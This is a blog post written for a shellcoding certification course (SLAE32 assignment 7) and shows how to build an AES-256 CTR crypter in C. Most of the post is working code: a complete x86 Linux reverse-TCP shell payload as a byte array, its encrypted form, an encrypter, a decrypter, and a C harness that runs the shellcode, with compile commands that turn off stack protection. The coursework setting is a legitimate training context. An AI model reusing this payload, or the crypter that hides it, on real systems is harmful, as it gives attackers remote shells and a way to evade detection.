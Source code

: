 ```yaml
---
layout: post
title: SLAE32 Assignment7
---
```

![Alt](https://bohansec.com/assets/SHELLCODING32.png "Pentester Academy")

This blog post has been created for completing the requirments of the SecurityTube (Pentester Academy) x86 Assembly Language and Shellcoding on Linux certification:

[x86 Assembly Language and Shellcoding on Linux](https://www.pentesteracademy.com/course?id=3){:target="_blank"}

Student ID: SLAE-1562

### Objects
{% highlight js %}
Create a custom crypter like the one shown in the "crypters" video

Free to use any existing encryption schema

Can use any programming language

{% endhighlight %}

### Prerequisite

* Install libemu
{% highlight js %}
git clone https://github.com/buffer/libemu
sudo apt-get install autoconf
sudo apt-get install libtool
autoreconf -v -i
./configure --prefix=/opt/libemu
autoreconf -v -i
sudo make install
{% endhighlight %}

* Obtain the Kali (x86) Linux 2020.3 
{% highlight js %}
https://images.kali.org/virtual-images/kali-linux-2020.3-vmware-i386.7z
{% endhighlight %}

### Create the Crypter

For this assignment, I decided to use C and AES256 for my encryption schema. I used "Tiny-AES-C" to assist my encryption schema creation. You can find it at [here](https://github.com/kokke/tiny-AES-c){:target="_blank"}.

I chose CTR mode in AES 256. The portable library is easy to understand if you read the examples in the test.c file.

Encryption Code:

{% highlight js %}
#include<stdio.h>
#include<stdlib.h>
#include<string.h>


#define CBC 1
#define CTR 1
#define ECB 1
#define AES256 1

#include "aes.h"

int i;
static void encrypt(void)
{
    // IV: mykeyishardtosee
    uint8_t iv[]  = { 
			0x6d, 0x79, 0x6b, 0x65, 0x79, 0x69, 0x73, 0x68, 0x61, 0x72, 0x64, 0x74, 0x6f, 0x73, 0x65, 0x65 
		    };

    // Key: spcuyijbsdgwtigfedymyxzamskucbmr
    uint8_t key[] = { 
			0x73, 0x70, 0x63, 0x75, 0x79, 0x69, 0x6a, 0x62, 0x73, 0x64, 0x67, 0x77, 0x74, 0x69, 0x67, 0x66,
			0x65, 0x64, 0x79, 0x6d, 0x79, 0x78, 0x7a, 0x61, 0x6d, 0x73, 0x6b, 0x75, 0x63, 0x62, 0x6d, 0x72 
		    };

    //Shellcode Reverse TCP connect to my ip 192.168.200.136 at port 4444
    uint8_t shellcode[] = { 

			 	0x31,0xc0,0x31,0xdb,0x31,0xc9,0x31,0xd2,0x31,0xf6,0x31,0xff,0x66,0xb8,0x67,0x01,0xb3,0x02,0xb1,0x01,0xcd,0x80,0x89,0xc6,0x89,0xc3,0xb1,0x03,0x31,0xc0,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf7,0x31,0xdb,0x89,0xf3,0x66,0xb8,0x6a,0x01,0x57,0x68,0xc0,0xa8,0xc8,0x88,0x66,0x68,0x11,0x5c,0x66,0x6a,0x02,0x89,0xe1,0xb2,0x66,0xcd,0x80,0x31,0xc0,0x50,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x50,0x89,0xe2,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xaa,0xaa,0xaa,0xaa,0xaa,0xaa,0xaa
				
			  };

    struct AES_ctx ctx;

    AES_init_ctx_iv(&ctx, key, iv);
    AES_CTR_xcrypt_buffer(&ctx, shellcode, sizeof(shellcode));


    printf("Encrypted Shellcode Format 1:");
    printf("\n");

    for (i = 0; i < sizeof shellcode; i ++)
    {
        printf("\\x%02x", shellcode[i]);
    }

    printf("\n");

    printf("Encrypted Shellcode Format 2:");
    printf("\n");
	 
    for (i = 0; i < sizeof shellcode; i ++)
    {
	if(i == sizeof(shellcode)-1){
		printf("0x%02x", shellcode[i]);
	}else{
		printf("0x%02x,", shellcode[i]);
	}
    }
    
    printf("\n");
}

int main(void)
{
    encrypt();
}

{% endhighlight %}

{% highlight js %}
gcc -fno-stack-protector -z execstack Crypter.c aes.c -o Crypter
./Crypter
{% endhighlight %}

### Create the Deypter

The decryption part in the CTR mode is identical to the encryption except I used encrypted shellcode as the input shellcode.

Decryption Code:

{% highlight js %}
#include<stdio.h>
#include<stdlib.h>
#include<string.h>


#define CBC 1
#define CTR 1
#define ECB 1
#define AES256 1

#include "aes.h"

int i;
static void decrypt(void)
{
    // IV: mykeyishardtobreak
    uint8_t iv[]  = { 
			0x6d, 0x79, 0x6b, 0x65, 0x79, 0x69, 0x73, 0x68, 0x61, 0x72, 0x64, 0x74, 0x6f, 0x73, 0x65, 0x65 
		    };

    uint8_t key[] = { 
			0x73, 0x70, 0x63, 0x75, 0x79, 0x69, 0x6a, 0x62, 0x73, 0x64, 0x67, 0x77, 0x74, 0x69, 0x67, 0x66,
			0x65, 0x64, 0x79, 0x6d, 0x79, 0x78, 0x7a, 0x61, 0x6d, 0x73, 0x6b, 0x75, 0x63, 0x62, 0x6d, 0x72 
		    };

    //Shellcode Reverse TCP connect to my ip 192.168.200.136 at port 4444
    uint8_t shellcode[] = { 
				 0xf5,0xd0,0xb8,0xd4,0x53,0xb4,0x78,0x58,0x08,0xfa,0x7f,0x72,0x1d,0x17,0x5c,0x5c,0x16,0x94,0xcf,0x8a,0x01,0x3a,0xf3,0xd5,0xd9,0x58,0xe5,0x4a,0xe5,0xa5,0xa9,0x68,0xf0,0x8d,0x7f,0xbe,0xe5,0x3c,0x42,0xe7,0x7c,0x26,0x9e,0x8f,0xf2,0x03,0x42,0x8b,0xde,0xaa,0x0c,0xfb,0x63,0xe0,0x4a,0x88,0xa0,0x0c,0x8f,0xb9,0xe9,0x59,0x2c,0x86,0xa1,0xed,0xaa,0xb2,0xa2,0xed,0xa5,0xa8,0xed,0x26,0x2a,0xf6,0x20,0x15,0xd6,0xff,0x94,0x3f,0x5c,0x25,0x59,0x8d,0xff,0xda,0xf2,0x8f,0x6e,0xa0,0x6a,0xc3,0x63,0x98
			  };

    struct AES_ctx ctx;

    AES_init_ctx_iv(&ctx, key, iv);
    AES_CTR_xcrypt_buffer(&ctx, shellcode, sizeof(shellcode));


    printf("Decrypted Shellcode Format 1:");
    printf("\n");

    for (i = 0; i < sizeof shellcode; i ++)
    {
        printf("\\x%02x", shellcode[i]);
    }

    printf("\n");

    printf("Decrypted Shellcode Format 2:");
    printf("\n");
	 
    for (i = 0; i < sizeof shellcode; i ++)
    {
        if(i == sizeof(shellcode)-1)
	{
		printf("0x%02x", shellcode[i]);
	}else{
		printf("0x%02x,", shellcode[i]);
	}
    }

    printf("\n");
}

int main(void)
{
    decrypt();
}
{% endhighlight %}

Compile the code:
{% highlight js %}
gcc -fno-stack-protector -z execstack Decrypter.c aes.c -o Decrypter
./Decrypter
{% endhighlight %}

### Shellcode Test File

shellcode.c: 

{% highlight js %}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xc3\xb1\x03\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf7\x31\xdb\x89\xf3\x66\xb8\x6a\x01\x57\x68\xc0\xa8\xc8\x88\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x66\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\xaa\xaa\xaa\xaa\xaa\xaa\xaa";
int main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}

{% endhighlight %}

{% highlight js %}
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
./shellcode
{% endhighlight %}

Now once we run the decrypted shellcode, we get a reverse shell connected to my host machine.

![Reverse Shell](https://bohansec.com/assets/SLAE-assignment7/1.PNG "Reverse Shell")

You can find all the above code at [here](https://github.com/allan9595/SLAE-Assignments/tree/master/assignment7){:target="_blank"}.

Thanks for reading :)


